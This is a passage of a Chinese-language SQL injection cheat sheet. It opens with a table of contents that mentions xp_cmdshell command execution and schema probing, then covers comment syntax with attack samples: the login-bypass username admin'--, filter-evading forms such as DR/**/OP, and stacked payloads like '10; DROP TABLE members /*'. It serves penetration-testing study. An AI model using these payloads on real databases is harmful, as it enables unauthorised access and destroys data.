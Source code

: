         5.  执行系统命令，xp_cmdshell(S)
        6.  SQL Server中的一些特殊的表(S)
        7.  SQL Server的其它内置程序(S)
        8.  大量MSSQL笔记
        9.  使用LIMIT(M)或ORDER(MSO)的注入
        10.  关掉SQL Server(S)
    16.  在SQL Server 2005中启用xp_cmdshell
    17.  探测SQL Server数据库的结构(S)
        1.  获取用户定义表
        2.  获取字段名
    18.  移动记录(Moving records)(S)
    19.  快速的脱掉基于错误(Error Based)的SQL Server注入(S)

0x02 语法参考，攻击样例以及注入小技巧
=====

### 行间注释

**注释掉查询语句的其余部分**

行间注释通常用于注释掉查询语句的其余部分，这样你就不需要去修复整句语法了。

*   `--`(SM)
    
    `DROP sampletable;--`
    
*   `#`(M)
    
    `DROP sampletable;#`
    

#### 使用了行间注释的SQL注入攻击样例

> 用户名:`admin'--`

*   构成语句:`SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'`这会使你以admin身份登陆，因为其余部分的SQL语句被注释掉了。

### 行内注释

**通过不关闭注释注释掉查询语句的其余部分**，或者用于**绕过过滤**，移除空格，混淆，或探测数据库版本。

*   `/*注释内容*/`(SM)
    
    *   `DROP/*comment*/sampletable`
    *   `DR/**/OP/*绕过过滤*/sampletable`
    *   `SELECT/*替换空格*/password/**/FROM/**/Members`
*   `/*! MYSQL专属 */`(M)
    
    这是个MySQL专属语法。非常适合用于探测MySQL版本。如果你在注释中写入代码，只有MySQL才会执行。同样的你也可以用这招，使得只有高于某版本的服务器才执行某些代码。`SELECT /*!32302 1/0, */ 1 FROM tablename`
    

#### 使用了行内注释的注入攻击样例

> ID:`10; DROP TABLE members /*`

简单地摆脱了处理后续语句的麻烦，同样你可以使用`10; DROP TABLE members --`
